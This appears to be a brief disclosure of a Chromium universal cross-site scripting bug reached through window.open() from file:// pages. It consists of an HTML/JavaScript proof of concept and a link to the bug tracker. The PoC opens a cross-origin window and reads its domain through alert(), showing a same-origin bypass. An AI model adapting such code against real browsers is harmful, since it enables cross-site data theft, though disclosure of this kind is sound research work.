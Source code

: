 # Security: UXSS via window.open() via file:// pages

<video src="./steps.mp4" />

Poc:
```html
<button onclick="fsBypass(document.documentElement);">click Here</button>
<script>
function fsBypass(element) {
  var x = window.open("http://abc.xyz");
  x.alert();
  setTimeout(function(){x.alert(x.document.domain);}, 70)
}
</script>
```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=594383
